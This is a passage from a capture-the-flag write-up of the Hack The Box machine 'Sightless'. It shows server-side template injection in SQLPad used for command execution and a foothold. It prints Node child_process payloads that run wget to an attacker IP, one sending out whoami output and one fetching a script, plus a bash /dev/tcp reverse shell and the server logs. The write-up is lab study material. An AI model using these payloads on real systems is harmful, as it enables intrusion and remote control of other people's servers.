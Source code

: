 For the purpose of `enumeration` our member `Bushidosan` came up with a neat little `Command Injection` example.

```c
{{ process.mainModule.require('child_process').exec('wget "http://10.10.14.132/$(whoami)"') }}
```

Interesting enough the application was running as `root` so this was an indicator that it probably ran inside a `container` because of the early stage of the box.

```c
10.129.200.167 - - [07/Sep/2024 21:51:00] code 404, message File not found
10.129.200.167 - - [07/Sep/2024 21:51:00] "GET /root HTTP/1.1" 404 -
10.129.200.167 - - [07/Sep/2024 21:51:00] code 404, message File not found
10.129.200.167 - - [07/Sep/2024 21:51:00] "GET /root HTTP/1.1" 404 -
```

To gain `foothold` on the box we hosted a simple `reverse shell` payload locally, downloaded it through the `Remote Code Execution (RCE)` within the `Server-Side Template Injection (SSTI)` and then executed it using a `second` payload.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Sightless/serve]
└─$ cat x 
#!/bin/bash
bash -c '/bin/bash -i >& /dev/tcp/10.10.14.132/9001 0>&1'
```

```c
{{ process.mainModule.require('child_process').exec('wget http://10.10.14.132/x') }}
```

![](images/2024-09-07_21-46_80_sqlpad_ssti_payload.png)

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Sightless/serve]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.200.167 - - [07/Sep/2024 21:45:32] "GET /x HTTP/1.1" 200 -
10.129.200.167 - - [07/Sep/2024 21:45:32] "GET /x HTTP/1.1" 200 -
```
